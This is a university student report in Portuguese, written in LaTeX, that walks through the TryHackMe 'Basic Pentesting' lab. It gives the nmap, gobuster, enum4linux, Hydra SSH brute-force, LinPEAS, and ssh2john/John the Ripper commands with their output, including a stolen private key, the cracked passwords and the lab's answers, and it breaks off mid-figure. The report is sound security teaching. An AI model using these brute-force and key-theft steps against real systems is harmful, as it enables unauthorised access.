\documentclass[11pt]{article}

\usepackage[a4paper, total={16cm, 24cm}]{geometry}
\usepackage[portuguese]{babel}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage{tikz}
    \usetikzlibrary{shadows}
\usepackage{booktabs}
\usepackage[colorlinks=true]{hyperref}
\usepackage{listings}
    \renewcommand\lstlistingname{Listagem}
    \lstset{numbers=left, numberstyle=\tiny, numbersep=5pt, basicstyle=\footnotesize\ttfamily, frame=tb,rulesepcolor=\color{gray}, breaklines=true}
\usepackage{blindtext}
\usepackage{listings}

% -------------------------------------------------------------------------------------------
\title
{
    
\includegraphics[width=0.4\textwidth]{imgs/university.png}
    \\[0.1cm]
    \textbf{Trabalho Prático} \\
    Segurança Informática
}

\author
{
    \textbf{Professor:} Pedo Patinho \\
    \textbf{Realizado por:} Miguel de Carvalho (43108), João Pereira (42864) 
}
\date{\today}

% -------------------------------------------------------------------------------------------
%                                Body                                                       %
% -------------------------------------------------------------------------------------------

\begin{document}
\maketitle

% -------------------------------------------------------------------------------------------
\section{Introdução}

\hspace{0.6cm}No âmbito da disciplina de Segurança Informática foi proposto a realização de dois  duas salas da plataforma \textbf{TryHackMe} como parte prática do trabalho final.

\textbf{TryHackMe} é uma plataforma online com o objetivo de aprender ciber segurança através de exercícios. Tem exercícios para todos os níveis de experiência e incorpora guias e desafios para estilos diferentes de aprendizagem.

\section{Ferramentas utilizadas}

Durante a realização das duas salas \textbf{Basic Pentesting} e \textbf{Pickle Rick Room} foram utilizadas várias ferramentas, entre as quais:

\begin{itemize}
    \item Nmap
    \item Gobuster
    \item DirBuster
    \item enum4linux
    \item LinPEAS
    \item John the Ripper
    \item Hydra
\end{itemize}

\newpage

\subsection{Nmap}

\textbf{Nmap} é uma ferramenta utilizada para encontrar serviços ou servidores na rede.

\subsection{Gobuster}

\textbf{Gobuster} é uma ferramenta que usa força-bruta em:
\begin{itemize}
    \item URIs;
    \item subdomínios DNS;
    \item hosts virtuais;
    \item buckets S3.
\end{itemize}

\subsection{DirBuster}

\textbf{Dirbuster} é uma ferramenta que usa força bruta em nomes de directorias e em nomes de ficheiros em servidores ou aplicações web.

\subsection{Enum4linux}

\textbf{Enum4linux} é uma ferramenta para enumerar informação do sistema WIndows e de servidores Samba. Tenta ofercer uma experiência similiar ao enuma já existente para o Windows.

\subsection{LinPEAS}

\textbf{LinPEAS} é uma ferramenta que procura por possivéis falhas que permitam escalar privilégios em sistemas Linux, Unix e MacOS.

\subsection{John the Ripper}

\textbf{John the Ripper} é uma ferramenta utilizada para fazer crack de passwords.

\subsection{Hydra}

\textbf{Hydra} é um cracker de logins paralelos que suporta vários protocolos. É muito rápido e flexível e pode ser adicionados módulos.

\section{Salas}

\subsection{Basic Pentesting}

\url{https://tryhackme.com/room/basicpentestingjt}

\subsubsection{Procurar serviços em execução na máquina}

\hspace{0.45cm} Para procurarmos os serviços em execução com portos expostos utilizamos o \textbf{nmap}.

\begin{verbatim}
    nmap -sC -sV -oN nmap-pen/initial  10.10.165.187
\end{verbatim}

Descobrimos que estes portos encontram-se actualmente abertos:
\begin{itemize}
    \item 22
    \item 80 
    \item 139
    \item 445
\end{itemize}

\subsubsection{Procurar páginas expostas pelo Servidor Web}

Utilizamos o gobuster para encontrar os "paths URL" que temos acesso (com um dicionario de paths disponiblizado pelo DirBuster) 

\begin{verbatim}
gobuster -u http://10.10.34.221/ dir -w 
/home/kali/Desktop/SI/node-dirbuster/lists/directory-list-2.3-medium.txt
-x php,sh,txt,html,js,css,py 
\end{verbatim}
Código fonte da página servida pelo servidor Web através da porta \textbf{80}:

\begin{lstlisting}[language=HTML]
<html>
    <h1>Undergoing maintenance</h1>
    <h4>Please check back later</h4>
    <!-- Check our dev note section if you need to know what to work on. -->
</html>
\end{lstlisting}




\begin{lstlisting}
URL Paths encontrados:

/development  (Status: 301) [Size: 320] [--> http://10.10.165.187/development/]
\end{lstlisting}

What is the name of the hidden directory on the web server?: development

\begin{figure}[h]
    
\includegraphics[width=1\textwidth]{imgs/Screenshot_2021-07-13_17_56_27.png}
    \centering
    \caption{Nmap e Gobuster}
\end{figure}

\newpage

Acedemos ao /development e encontramos dois ficheiros txt: \textbf{dev} e \textbf{j}
\begin{verbatim}

*dev.txt

2018-04-23: I've been messing with that 
struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't 
made any real web apps yet, but I have tried that example
you get to show off how it works (and it's 
the REST version of the example!). Oh, and right now 
I'm using version 2.5.12, because other versions
were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
\end{verbatim}

\begin{verbatim}
*j.txt

For J:

I've been auditing the contents of /etc/shadow to 
make sure we don't have any weak credentials,
and I was able to crack your hash really easily. 
You know our password policy, so please follow
it? Change that password ASAP.

-K
\end{verbatim}

\subsubsection{Procurar utilizadores do servidor}

Utilizamos o enum4linux para encontrar informações sobre os utilizadores.

\begin{figure}[h]
    
\includegraphics[width=1\textwidth]{imgs/Screenshot_2021-07-13_18_56_52.png}
    \centering
    \caption{enum4linux}
\end{figure}

\begin{verbatim}
enum4linux -a 10.10.165.187 
\end{verbatim}

\begin{lstlisting}
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User kay (Local User)
S-1-22-1-1001 Unix User jan (Local User)
[+] Enumerating users using SID S-1-5-21-2853212168-2008227510-3551253869 and logon username '', password ''
\end{lstlisting}

What is the username?: jan


\subsubsection{Password BruteForce}

Utilizamos o hydra para forçar a entrada do utilizador jan através de uma ligação ssh.
Usamos o fichei \textbf{rockyou.txt} como dicionário de palavras pass.

\begin{verbatim}
hydra -l jan -P rockyou.txt ssh://10.10.165.187
\end{verbatim}

\begin{lstlisting}
Hydra v9.1  2020 by van HauserTHC and David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-13 19:09:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.165.187:22/
[STATUS] 179.00 tries/min, 179 tries in 00:01h, 14344222 to do in 1335:36h, 16 active
[STATUS] 134.00 tries/min, 402 tries in 00:03h, 14343999 to do in 1784:05h, 16 active
[22][ssh] host: 10.10.165.187   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-13 19:16:06
\end{lstlisting}


What service do you use to access the server?: ssh

What is the password?: armando

\newpage

\subsubsection{SSH Connection and Privilege Escalation}

Para descobrir as vulnerabilidades de escalamento no sistema utilizamos o linpeas

\begin{figure}[h]
    
\includegraphics[width=1\textwidth]{imgs/Screenshot_2021-07-13_19_37_13.png}
    \centering
    \caption{linpeas}
\end{figure}

\begin{verbatim}
scp linpeas.sh jan@10.10.165.187:/dev/shm  --> enviar o exploit para o server alvo
\end{verbatim}

\begin{verbatim}
./linpeas.sh | tee linlog.txt ---> correr o script no pc da vitima 
para mostrar as vunerabilidades 
\end{verbatim}


a vitima possuia uma diretoria de chaves ssh em que todos os utilizadores têm acesso:
 \begin{verbatim}
Private SSh Keys found!:
/home/kay/.ssh/id_rsa
 
jan@basic2:/home/kay/.ssh$ cat id_rsa 
\end{verbatim}


\begin{verbatim}
nano kay_id_rsa  ---> copiar o conteúdo para a nossa directoria
\end{verbatim}


 \begin{verbatim}
 ssh -i kay_id_rsa kay@10.10.165.187 
\end{verbatim}

\subsubsection{SSH Key and John the ripper}

Utilizamos o John the ripper para conseguir utilizar a chave ssh (ao descobrir a palavra pass descoberta) 

\begin{figure}[h]
    
\includegraphics[width=1\textwidth]{imgs/Screenshot_2021-07-14_06_43_32.png}
    \centering
    \caption{John the ripper and SSH key}
\end{figure}

 \begin{verbatim}
python3 john/run/ssh2john.py kay_id_rsa > forjohn.txt   
---> converter a chave para um ficheiro que o software consiga interpretar
\end{verbatim}

 \begin{verbatim}
john forjohn.txt --wordlist=rockyou.txt     
\end{verbatim}

\begin{lstlisting}
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kay_id_rsa)
1g 0:00:00:07 99.69% (ETA: 06:43:07) 0.1375g/s 1967Kp/s 1967Kc/s 1967KC/s *ames4bas*..*amanda170892*
Session aborted
\end{lstlisting}

What is the name of the other user you found?: kay

Password encontrada: beeswax

 \begin{verbatim}
chmod 600 kay_id_rsa    
\end{verbatim}

 \begin{verbatim}
ssh -i kay_id_rsa kay@10.10.35.200   ----> aceder ao servidor 
como kay (que possui permissões para ler mais ficheiros)
\end{verbatim}

 \begin{verbatim}
cat pass.bak 
\end{verbatim}

 \begin{verbatim}
What is the final password you obtain? 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
\end{verbatim}

\begin{figure}[h]
